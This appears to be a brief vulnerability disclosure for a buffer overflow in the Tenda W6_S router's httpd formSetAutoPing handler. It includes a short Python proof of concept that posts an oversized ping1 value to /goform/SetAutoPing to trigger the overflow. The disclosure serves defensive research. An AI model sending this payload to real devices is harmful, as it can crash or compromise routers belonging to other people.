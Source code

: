 # buff overflow

## Tenda_W6_S

version: V1.0.0.4(510)

## Description:

There is a buff overflow in httpd/formSetAutoPing

## Source:

you may download it from : https://www.tendacn.com/download/detail-3478.html

## Analyse:


![](5.png)

get value from ping1, then call sprintf, cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/SetAutoPing"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={'ping1': payload, 'linkEn':1})
``` 
